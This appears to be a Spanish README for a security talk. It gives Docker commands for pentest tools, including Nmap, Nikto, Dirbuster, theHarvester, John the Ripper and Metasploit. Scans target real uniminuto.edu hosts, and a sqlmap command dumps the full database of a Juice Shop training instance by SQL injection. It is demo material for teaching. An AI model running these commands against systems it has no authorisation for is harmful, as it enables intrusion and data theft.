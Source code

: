 # Killer Whale


 - [Killer Whale](#killer-whale)
   - [Demo](#demo)
     - [NMAP](#NMAP)
     - [The Harvester](#the-harvester)
     - [John the Ripper](#john-the-ripper)
     - [Nikto](#nikto)
     - [Metasploit](#metasploit)
     - [Dirbuster](#dirbuster)
     - [Sqlmap](#sqlmap)


## Killer Whale

Este repo contiene información sobre la charla.

La presentación está disponible en: [Google Drive](http://bit.ly/2mviJZe)

## Demo

### NMAP

```console
docker pull instrumentisto/nmap

docker run --rm -it instrumentisto/nmap -A -T4 scanme.nmap.org --open
```

### The Harvester

```console
docker pull andersballegaard/theharvester  

docker run -it andersballegaard/theharvester -b google -d uniminuto.edu
```

### John the Ripper

```console
docker pull adamoss/john-the-ripper

docker run --rm -it -v `pwd`/example_files/chall7.txt:/crackme.txt adamoss/john-the-ripper /crackme.txt
```

### Nikto

```console
docker pull frapsoft/nikto

docker run frapsoft/nikto -host http://wiwa.uniminuto.edu:8501
```

### Metasploit

```console
docker pull metasploitframework/metasploit-framework

docker run --rm -it metasploitframework/metasploit-framework ./msfconsole
```

### Dirbuster

```console
docker pull hypnza/dirbuster

docker run --rm hypnza/dirbuster -u http://biblioteca.uniminuto.edu/
```

### Sqlmap

```console
docker pull paoloo/sqlmap

docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap -u 'https://juice-shop.herokuapp.com/rest/products/search?q=test' -p 'q' --dbms="sqlite" --technique U --prefix "')) " --level 5 --risk 3 --dump-all --no-cast --no-escape --flush
```

### Kali Linux

```console
docker pull kalilinux/kali-linux-docker

docker run -t -i kalilinux/kali-linux-docker /bin/bash

```





